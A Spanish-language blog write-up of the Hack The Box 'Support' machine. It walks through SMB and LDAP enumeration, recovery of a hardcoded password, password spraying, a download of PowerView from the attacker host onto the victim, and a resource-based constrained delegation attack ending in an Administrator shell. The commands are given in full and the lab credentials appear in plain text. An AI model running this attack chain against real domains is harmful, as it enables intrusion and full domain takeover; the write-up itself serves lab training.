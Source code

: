 ```yaml
---
layout:   post
title:    "Write Up Support."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,TGT,PowerView,Ldap,EvilWinRM,SMB,Active-Directory,Write-Up-Machine,dnspy,Starting-Point,OSCP,OSEP]
---
```

![list](/assets/img/support/support.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.174 -oG allports
```

El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49957,54662,56835 10.10.11.174 -oN target
```

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Con todos esos puetos abiertos es pisible asumir que estamos frente a un `Domain Controler` imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros .

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

![list](/assets/img/support/Parrot-SO3-2022-08-23-15-31-10.png){:.lead width="800" height="100" loading="lazy"}

```bash
crackmapexec smb 10.10.11.174
```

{:.note}
El doninio es `support.htb0`,lo agrgamos al `/etc/hosts`.

Podemos usar smbclien, smbmap, o nbtscan para listar los shares. 

![list](/assets/img/support/Parrot-SO3-2022-08-23-15-53-04.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbmap -H 10.10.11.174 -u guest -R
```

{:.note}
Listamos los shares y vemos el contenido recursivamente.

Vemos el recurso support-tools el cual contiene ciertos archivos pero tiene un archivo muy interesante llamado UserInfo.exe.zip, lo descargamos.

![list](/assets/img/support/Parrot-SO3-2022-08-23-16-48-46.png){:.lead width="800" height="100" loading="lazy"}

Miramos el contenido podemos ver un exe y varios dll, analizaremos el archivo .exe.

![list](/assets/img/support/Parrot-SO3-2022-08-23-16-50-33.png){:.lead width="800" height="100" loading="lazy"}

Analizandolo con dnSpy podemos ver Protected entre otras cosas y si miramos el .cctor() podemos encontrar una cadena llamada enc_password y una key, ahora en getPassword() podemos encontrar la manera de decodear la cadena y podemos hacerlo facilmente con python y obtenemos la cadena decodeada.

![list](/assets/img/support/Parrot-SO3-2022-08-23-19-14-36.png){:.lead width="800" height="100" loading="lazy"}


Enumerando ldap con la contraseña, podemos encontrar un campo info con una contraseña

![list](/assets/img/support/Parrot-SO3-2022-08-23-19-29-24.png){:.lead width="800" height="100" loading="lazy"}

Podemos abusar de los campos name: para crear un diccionario y hacer passwordspray

![list](/assets/img/support/Parrot-SO3-2022-08-23-19-42-40.png){:.lead width="800" height="100" loading="lazy"}

```bash
ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info:
```

{:.note}
La contraseña es `Ironside47pleasure40Watchful`.

![list](/assets/img/support/Parrot-SO3-2022-08-23-19-47-44.png){:.lead width="800" height="100" loading="lazy"}

```bash
ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U' > users.txt
```

{:.note}
Grepeamos los usuarios para extraerlos y usarlos mas  adelante.



Utilizamos Crackmapexec para validar el usrio y contraneña.

```bash
crackmapexec winrm 10.10.11.174 -u users.txt -p Ironside47pleasure40Watchful
```


{:.note}
El usuario valido es `support`.

El usuario support es válido, nos conectamos con evil-winrm y podemos leer la flag.

![list](/assets/img/support/Parrot-SO3-2022-08-23-20-26-35.png){:.lead width="800" height="100" loading="lazy"}


```bash
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```

{:.note}
buscamos la flag de usuario `type ..\Desktop\user.txt`.


***
## Explotacion

Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.

En este caso vamos a enumerar posibles vectores para escalar privileguios con bloodHound.

```bash
neo4j console
```

{:.note}
Arrancamos neo4j que comparte un servicio por el puero 4747 y te loogeas si ya los has hecho habres el bloodhound.

```bash
bloodhound &> /dev/null & disown
```

{:.note}
Independizamos el proceso.


Nos arroga un archivo.zip que luego no lo pasamos a la maquina atacate y de ahi lo cargamos en el `bloodhound` para interpetar los datos, podemos ver que support tiene el GenericAll expuesto.

Podemos  aprovecharnos de la vulnerabilidad de [Constrained-Delegation] y seguir los pasos de el siguiente artículo para escalar.

[Constrained-Delegation]: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Descargamos los modulos módulos de [PowerView.ps1] y [Powermad.ps1] y los importamos.

[PowerView.ps1]:https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
[Powermad.ps1]: https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1


```powershell
curl 10.10.14.18/Powermad.ps1 -o Powermad.ps1
```

{:.note}
Ejecutar en la maquina victima para descargarnos el recurso.


```powershell
curl 10.10.14.18/PowerView.ps1 -o PowerView.ps1
```

{:.note}
Ejecutar en la maquina victima se deb levantar un server web con python.


```powershell
Import-Module .\Powermad.ps1
```

{:.note}
Ejecutar en la maquina victim e importamos el modulo.

```powershell
Import-Module .\PowerView.ps1
```

{:.note}
Ejecutar en la maquina victim e importamos el modulo.


Iniciamos creando una cuenta con el nombre test y la contraseña test123

```powershell
New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString 'test123' -AsPlainText -Force) -Verbose
```

{:.note}
Se crea el usuario y contraseña.


Antes de los siguiente pasos necesitamos conseguir el sid de la cuenta que creamos.

```powershell
Get-DomainComputer fake01 -Properties objectsid
```

{:.note}
El objetsid es `S-1-5-21-1677581083-3380853377-188903654-5601`.


Ahora con el sid podemos seguir con los pasos siguientes.

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
```

```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```powershell
$SD.GetBinaryForm($SDBytes, 0)
```

```powershell
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

En el punto final mas que jugar con rubeus para obtener el `Ticket Granting silver` podemos hacerlo con impacket.

```powershell
impacket-getST support.htb/test:test123 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
```

{:.note}
Recordar agregar `support.htb` y `dc.support.htb` al archivo `/etc/hosts`.


Con el ticket nos podemos conectar con wmiexec y nos convertimos en Administrator.

```powershell
export KRB5CCNAME=administrator.ccache
```

```powershell
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
```

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Support de Hack The Box. 🎉
```
{:.centered}
***

Back to [Beginner Track Active Directory](2022-09-21-Beginner-Track-AD.md){:.heading.flip-title}
{:.read-more}
